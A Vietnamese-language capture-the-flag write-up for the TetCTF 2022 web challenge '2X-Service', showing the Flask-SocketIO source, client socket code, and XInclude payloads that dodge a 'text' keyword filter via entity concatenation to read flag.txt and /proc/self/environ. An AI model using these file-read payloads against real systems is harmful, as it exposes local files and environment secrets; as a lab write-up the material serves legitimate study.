 ```yaml
---
title: TetCTF 2022 | Web Exploitation | 2X-Service
date: 2022-01-01-19:33:00
---
```


# 2X-Service

![2x-service](https://user-images.githubusercontent.com/82533607/147850702-16a63ccc-ba1d-4543-81ac-4aa052659960.png)

## Source code & analysis

### Source code:

Đây là source code của `app.py`:

```python
import random
import os
from flask import Flask, render_template, render_template_string, url_for, redirect, request
from flask_socketio import SocketIO, emit, send
from xml.etree import ElementTree, ElementInclude

app = Flask(__name__)

app.config['SECRET_KEY'] = 'XXXXXXXSECREKTXXXXXXXX'
socketio = SocketIO(app)

@app.route('/')
def index():
	return redirect(url_for('dashboard'))


@app.route('/dashboard')
def dashboard():
	return render_template('./dashboard.html')

@app.route('/source')
def source():
	return render_template('source.html')

@app.route('/about')
def about():
	return render_template('about.html')


@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')


@socketio.on('my event')
def handle_my_custom_event(json):
	print('received json: ' + str(json))

if __name__ == '__main__':
	socketio.run(app, host='0.0.0.0', port=8003)
```

### Analysis

Ở bài này sử dụng websocket thông qua `flask-socketio`, nhìn qua source code của `/dardboard` ta thấy có `jquery` và `socketio` được import sẵn, nhưng chưa khởi tạo `socket`:

```html
<link rel="stylesheet" href="static/css/tsu.css">
<script src="static/js/jquery.min.js"></script>
<script src="static/js/socket.io.js"></script>
<script src="static/js/tsu.js"></script>


<meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <div class="header">
    <a href="#default" class="logo">2X-Service</a>
    <div class="header-right">
      <a class="active" href="/">Home</a>
      <a href="/source">Source</a>
      <a href="/about">About</a>
    </div>
  </div>

<body>

<br><br>
<center>
	<div class="form" >
	    <label>XPATH</label><br>
	    <input type="text" id="xpath" placeholder="Ex: attribute"><br>

	    <label>XML</label>
	    <textarea type="text" id="xml" rows="25" placeholder="Ex:&#10;<person>&#10;<name>tsu</name>&#10;<attribute>deptrai</attribute>&#10;</person>" ></textarea>
	  
	    <input type="submit" id="process" value="Process">
	</div>
</center>
```

Vì vậy, để gửi được request từ client đến socket tại server, ta cần thiết lập socket, sau khi đọc qua doc của `flask-socket`, mình đã tạo ra đoạn code `jquery` như sau:

```js
// Define the socket
socket = io()
// Connect to server's socket
socket.connect('http://207.148.119.136:8003')
// Test connection:
socket.on('connect', function() {
    socket.send('hello?', 'hi')
    console.log(socket.connected)
})
// Listen to response, then log to console
socket.on('result', function (data) {
    console.log(data);
});
// Submit form's content to server's socket
$('.form').submit(function(){
    socket.send($('#xpath').val(), $('#xml').val())
})
```

Test thử xem sao:

![socket_connected](https://user-images.githubusercontent.com/82533607/147850835-c6220de1-ba84-482b-b38f-da04f3c15ecc.png)

Vậy là đã xong phần socket, bây giờ cần phân tích source code một chút, cụ thể là phần `message`:

```python
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```

## Exploit

Đọc qua thì sẽ thấy phần này khá giống bài [X-Service](https://dauhoangtai.github.io/ctf/2021/11/13/WRITEUP-SVATTT-FINAL-2021-WEB.html#challenge-x-service) của vòng chung kết SVATTT 2021.

Ta có thể sử dụng payload sau:

```xml
<?xml version='1.0'?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="path_of_the_file" parse="text"/>
</document>
```

Nhưng có một vấn đề là, `text` bị filter, sau khi đọc qua doc của [xi:include](https://www.w3.org/TR/xinclude-11) thì mình nhận ra rằng, chẳng có `parser` nào có thể giải quyết vấn đề này, vì vậy, chỉ còn cách làm thế nào để `text` xuất hiện mà không bị filter.

Thực ra mọi chuyện khá đơn giản, chúng ta có thể dùng phương pháp `concat` như sau:

- Đầu tiên, define 2 biến `te` và `xt` thông qua `ENTITY`

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>
```

- Tiếp theo, sử dụng 2 biến đó:

```xml
<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

> &te;&xt; <=> "te" + "xt" = "text"

Và ta có payload hoàn chỉnh:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

Sử dụng `xpath = *`, đầu tiên, thử trên local xem sao?

![test](https://user-images.githubusercontent.com/82533607/147851083-50c4ca78-6545-44eb-a839-51b320ac056b.png)

OK, vậy là payload hoạt động tốt, vậy thử trên server xem sao?

![test_server](https://user-images.githubusercontent.com/82533607/147851133-1ca3f3c1-3383-49ff-9735-fa62e78fe437.png)

Oh, vậy là file `flag.txt` có thể không tồn tại, vậy là nó nằm ở đâu?

Sau một hồi "fuzzing bằng cơm" thì tôi vô tình tìm thấy được flag tại `/proc/self/environ`:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="/proc/self/environ" parse="&te;&xt;"/>
</p>
</document>
```

![flag](https://user-images.githubusercontent.com/82533607/147851230-9c48d2de-6d3e-44f0-a123-6e741fcbc1bd.png)

Flag: `FLAG=TetCTF{Just_Warm_y0u_uP_:P__}`

> Từ sáng đến tối chỉ để giải được 1 bài web duy nhất 😞